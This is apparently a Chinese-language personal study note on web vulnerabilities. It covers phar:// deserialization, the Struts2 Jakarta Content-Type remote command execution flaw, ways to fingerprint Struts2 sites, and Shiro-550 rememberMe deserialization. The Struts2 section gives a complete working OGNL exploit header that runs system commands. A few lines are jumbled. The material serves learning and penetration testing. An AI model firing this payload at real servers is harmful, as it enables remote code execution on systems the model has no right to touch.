   攻击者可以通过phar://协议来执行反序列化操作，进而执行任意代码。

  

![image-20240920171131363](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920171131363.png)

------

### Struts2漏洞

- 漏洞`产生`:在使用基于`jakarta`插件的文件上传功能时,有可能存在`远程命令执行`.用户可在上传文件时通过修改`http请求头`中的`Content-Type`值来触发该漏洞,执行系统命令
- 影响`版本`:`2.5 - 2.5.10` `2.3.5 - 2.3.31`

> 漏洞复现

```php
Content-Type:"%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"boundary=----WebKitFormBoundaryXx80aU0pu6vrsV3z
```

![image-20240920185144915](C:/Users/24937/Desktop/%E5%AD%A6%E4%B9%A0/%E7%AC%94%E8%AE%B0/assets/image-20240920185144915.png)

### 判断strus2框架

- 常规办法:
  - 1、通过页面回显的错误消息来判断，页面不回显错误息时则无效。
  - 2、通过网页后缀来判断，如`.do.action`，有可能不准。
    3、判断` /struts/webconsole.html `是否存在来进行判淤需要 devMode 为 true。
- 其它的方法
  - 通过 actionErrors。要求是对应的 Action 需要继承自actionsupport 类。
  - 利用方法:如原始 URL为 https://threathunter.org/则检测所用的 URL为 https://threathunter.org/?actionErrors=1111
    uts2 构建的。异常包括但不限于以下几种现象如果返回的页面出现异常，则可以认定为目标是基于 St
    - 1、页面直接出现 404 或者 500 等错误。
    - 2、页面上输出了与业务有关错误消息，或者1111被回显到了页面上。
    - 3、贡面的内容结构发生了明显的改变。
    - 4、页面发生了重定向。

------



### Shiro漏洞

> Shiro550漏洞复现

- `Apache Shiro`框架提供了记住密码的功能(RememberMe)，用户登录成功后会生成经过加密并编码的cookie。在服务端对`rememberMe`的`cookie`值，先base64解码然后AES解密再反序列化，就导致了反序列化RCE漏洞。
  那么，Payload产生的过程:
  命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值
  在整个漏洞利用过程中，比较重要的是`AES加密`的密钥，如果没有修改默认的密钥那么就很容易就知道密钥了.
- 影响`版本`:`Apache Shiro` < `1.2.4`
- 特征:返回包中会包含`rememberMe=deleteMe`字段,这种情况大多会发生在登录处，返回包里包含remeberMe=deleteMe字段，
  这个是在返回包中(Response),如果返回的数据包中没有remeberMe=deleteMe字段的话，可以在数据包中的Cookie中添加
  remeberMe=deleteMe字段这样也会在返回包中有这个字段
